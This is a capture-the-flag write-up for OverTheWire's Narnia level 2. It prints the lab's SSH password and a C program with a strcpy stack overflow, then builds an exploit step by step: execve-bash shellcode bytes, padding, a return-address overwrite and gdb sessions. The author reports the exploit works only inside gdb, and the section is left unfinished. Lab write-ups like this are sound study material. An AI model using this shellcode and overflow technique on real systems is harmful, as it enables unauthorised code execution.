






# Level 2 → Level 3

## Solution
```
ssh narnia2@narnia.labs.overthewire.org -p 2226
```
```
Zzb6MIyceT
```
```
cd /narnia ; ls -al
```
```
cat narnia2.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

In the first few seconds I didn't understand what could be done here. But then I remembered [microcorruption](https://github.com/SimchaTeich/Microcorruption)! And in my opinion, shellcode should be implanted here to the top of the stack and overwrite the value back which is 128+4 bytes from the top of the stack (plus 4 because there is an EBP register). Therefore, the order of operations will be as follows:
* Inserting shellcode at the top of the stack
    * The same shellcode from the previous challenge that causes bash to run
* Padding the shellcode so that it is 128+4 bytes in size
* And next to that will come the address to the top of the stack
     * This will overwrite the address back from main
     * Don't forget little endian

Let's get started:
1. shellcode is:
    ```
    SHELLCODE=$'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
    ```

2. padding is: 
    ```
    PADDING=$(perl -e 'print "A"x(128-33+4)')
    ```

3. what is the address of the top of the stack?
    
    #TODO: continue with gdb
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING))
    ```
    ```
    disas main
    ```
    
    

    Register `eax` contain the address to the shell code.

    ```
    b *0x080491d5
    ```
    ```
    r
    ```
    ```
    x/40x $sp
    ```

    

    `0xffffd408` is the pushed `eax` for the `printf`. Actualy this is the address for the shellcode.This is the address we want it to overwrite the original value back. `0xf7c21500` this is the return value **from** the main. Let's overwrite it:
    ```
    exit
    ```
    ```
    SHELLCODE_ADDR=$'\x08\xd4\xff\xff'
    ```
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    ```
    b *0x080491d5
    ```
    ```
    r
    ```
    ```
    x/40x $sp
    ```

    

    The second address indicates that we managed to hit the right place. But the first address indicates that when we added 4 bytes to the input, for some reason the addresses changed a bit. So we will do everything the same again, but the address of the shellcode will now be `0xffffd3f8`:

    ```
    exit
    ```
    ```
    SHELLCODE_ADDR=$'\xf8\xd3\xff\xff'
    ```
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    ```
    b *0x080491d5
    ```
    ```
    r
    ```
    ```
    x/40x $sp
    ```

    

    Now let's try to run the program inside the gsb without any break point:

    ```
    exit
    ```
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    ```
    r
    ```
    
    

    But still no permissions. Let's now try running outside of gdb:

    ```
    exit
    ```
    ```
    exit
    ```
    ```
    ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    
    

    This means that outside of gdb it doesn't work, but inside it it does. very strange. I tried to find answers to this, like [here](https://stackoverflow.com/questions/39187195/stack-buffer-overflow-works-on-gdb-doesnt-outsite-it), but nothing helped..<br />
    
    Are the addresses in gdb different from running without gdb?<br />
    Which leaves me with the same question - what is the address of the shellcode?<br />
    Or maybe there is another matter here?


## Password for the next level:
```

```
